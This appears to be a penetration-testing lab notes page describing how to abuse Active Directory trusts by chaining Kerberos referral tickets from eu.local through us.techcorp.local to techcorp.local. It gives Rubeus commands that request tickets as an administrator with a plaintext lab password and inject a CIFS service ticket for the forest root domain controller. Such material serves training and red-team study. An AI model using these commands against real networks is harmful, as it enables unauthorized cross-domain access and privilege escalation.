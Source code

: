# Methodology
>1. Request a referral TGT as intended from eu.local to us.techcorp.local (external bidirectional trust)
>2. Request a "local" TGT for us.techcorp.local (service realm - us.techcorp.local) since direct access from eu.local to techcorp.local isn't allowed.
>3. Use the local TGT again to gain another referral TGT for techcorp.local from us.techcorp.local (bidirectional child to forest trust).
>4. Finally, use the resultant referral TGT to gain a TGS for a target service on techcorp.local.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## Rubeus
**Request a TGT for the eu\\administrator user:**
```cmd
Rubeus.exe asktgt /user:administrator /password:0h!DomainDomainOnTheNet /nowrap
```

**Request a referral TGT for us.techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/us.techcorp.local /dc:eu-dc.eu.local /nowrap /ticket:
```

**Use the above referral TGT to gain a "local" TGT for us.techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/us.techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:
```

**Use the "local" TGT now request another referral TGT for techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:<"local" TGT>
```

**Request a usable TGS to gain access onto any target service on techcorp.local:**
```cmd
Rubeus.exe asktgs /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /nowrap /ptt /ticket:
```